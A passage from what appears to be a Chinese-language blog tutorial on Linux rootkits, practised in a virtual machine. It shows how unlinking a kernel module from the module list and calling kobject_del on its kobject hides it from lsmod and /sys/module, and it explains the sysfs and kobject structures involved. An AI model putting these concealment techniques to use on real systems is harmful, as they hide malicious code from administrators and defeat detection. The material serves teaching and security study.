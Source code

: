 static inline void __list_del(struct list_head * prev, struct list_head * next)
{
	next->prev = prev;
	WRITE_ONCE(prev->next, next);
}

static inline void INIT_LIST_HEAD(struct list_head *list)
{
	WRITE_ONCE(list->next, list);
	list->prev = list;
}
{% endhighlight %}

最后的`INIT_LIST_HEAD`让模块自身的前后指针指向自身。

我们加入删除指令后重新编译，并插入，再测试一下（在插入前最好给虚拟机拍摄一个快照，一会儿内核模块无法通过`rmmod`卸载，要进行下面实验没有快照就只能重启了）：

![linux-rkt-0]({{ site.url }}/images/LinuxRootkits/linux-rkt-0.png)

没有了，但是在`/sys/module`下还是可以看到：

![linux-rkt-0]({{ site.url }}/images/LinuxRootkits/linux-rkt-1.png)

下面我们要让它在这里也消失，先恢复到加载模块之前的快照。

只需要在初始化函数中加入

{% highlight c %}
kobject_del(&THIS_MODULE->mkobj.kobj);
{% endhighlight %}

`THIS_MODULE`定义在`include/linux/export.h`中：

{% highlight c %}
extern struct module __this_module;
#define THIS_MODULE (&__this_module)
{% endhighlight %}

在`include/linux/module.h`中可以看到`module`结构体的成员`mkobj`：

{% highlight c %}
struct module_kobject mkobj;
{% endhighlight %}

`module_kobject`也在`include/linux/module.h`中：

{% highlight c %}
struct module_kobject {
	struct kobject kobj;
	struct module *mod;
	struct kobject *drivers_dir;
	struct module_param_attrs *mp;
	struct completion *kobj_completion;
};
{% endhighlight %}

`kobject`是组成设备模型的基本结构。`sysfs`是基于 RAM 的文件系统，它提供了用于向用户空间展示内核空间里对象、属性和链接的方法。`sysfs`和`kobject`层次紧密相连，将`kobject`层次关系展示出来，让用户层能够看到。一般`sysfs`挂载在`/sys/`，所以`/sys/module`就是`sysfs`的一个目录层次，包含当前加载的模块信息。所以，我们使用`kobject_del()`删除我们的模块的`kobject`，就可以达到隐藏的目的。
